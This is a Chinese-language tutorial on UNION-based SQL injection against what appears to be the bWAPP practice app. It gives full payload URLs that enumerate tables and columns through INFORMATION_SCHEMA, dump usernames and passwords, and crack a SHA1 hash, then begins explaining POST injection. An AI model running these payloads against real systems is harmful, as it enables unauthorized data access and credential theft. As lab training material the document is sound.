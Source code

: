 - UNION生效 – 测试字段数量 - 构造其他SQL语句 

  - 尝试添加更多的数字，在title=e后面添加 'union select 1,2,3,4,5,6,7 -- ' 
  - 完整地址为：http://xforburp.com/sqli_1.php?title=e'union select 1, user(), database(), table_name,version(),6,7 from INFORMATION_SCHEMA.tables where table_schema=database() -- '&action=search
  - 直到展示的数据中出现数字

- 测试字段数量成功 - 替换其中的选项 - 获取数据库详细信息 

  - 在title=e后面添加 'union select 1, user(), database(), table_name,version(),6,7 from INFORMATION_SCHEMA.tables where table_schema=database() -- ' 
  - 完整地址为：http://xforburp.com/sqli_1.php?title=e'union select 1, user(), database(), table_name,version(),6,7 from INFORMATION_SCHEMA.tables where table_schema=database() -- '&action=search
  - 出现数据库的详细信息，看到 users 表
  - 重点：利用 NFORMATION_SCHEMA.tables 表

- 成功获取数据库信息 - 发现users表 - 进行users表结构信息获取 

  - 在title=e后面添加 'union select 1, column_name,2,4,5,6,7 from INFORMATION_SCHEMA.columns where table_name = 'users' -- ' 
  - 完整地址为：http://xforburp.com/sqli_1.php?title=e'union select 1, column_name,3,4,5,6,7 from INFORMATION_SCHEMA.columns where table_name = 'users' -- ' &action=search
  - 重点：利用 NFORMATION_SCHEMA.columns 表

- 已知表信息结构 - 进行表内容信息获取 

  - 在title=e后面添加 'union select 1, login,password,4,5,6,7 from users -- ' 
  - 完整地址为：http://xforburp.com/sqli_1.php?title=e'union select 1, login,password,4,5,6,7 from users -- '  &action=search

- 查询到用户名和密码 – 密码加密了 

  - 6885858486f31043e5839c735d99457f045affd0 
    - 一看就是md5
    - 直接解密
    - 肯定解不开 
  - Len(6885858486f31043e5839c735d99457f045affd0)==40
    - 明显不是md5
    - 至于为啥不是可以百度一下MD5算法，很简单
    - 回到正题，去CMD5解密，得到密码明文 

- 去在线MD5解密网站解密 

  - https://www.cmd5.com/
  - sha1 加密
  - 用户名：A.I.M. 密码 bug
  - 用户名：bee 密码 bug 

- 使用A.I.M账号登录，登录成功



### POST注入 

#### POST型SQL注入漏洞是什么？

- 在HTTP常用方法中，POST方法提交的信息不存储与URL，而是存储在HTTP实体内容中，在大多的提交过程，用户是无感知的。
- 且注入信息是存储于HTTP实体内容中而不是URL，通过改造实体内容，达到实际执行的SQL语句获取更多信息的目的。 
